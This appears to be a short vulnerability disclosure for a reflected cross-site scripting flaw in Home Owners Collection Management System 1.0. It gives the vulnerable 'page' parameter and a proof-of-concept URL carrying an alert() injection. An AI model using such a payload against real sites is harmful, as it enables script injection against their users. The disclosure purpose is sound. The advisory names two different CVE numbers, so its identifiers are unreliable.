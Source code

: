 # CVE-2022-28077
Home Owners Collection Management System 1.0 - Reflected XSS

#### Exploit Title: Home Owners Collection Management System 1.0 - Reflected XSS
#### Date: 2022-05-06
#### CVE: CVE-2022-28078
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://www.sourcecodester.com/
#### Software Link: https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html
#### Version: 1.0
#### Tested on: LAMP, Ubuntu

-----


#### [#] Vulnerability Location:

	`$_GET['page']` in `/hocms/admin/inc/navigation.php:116`

#### [#] Exploitation:

	`http://localhost/hocms/admin/?page=';alert("b4zb0z");'`
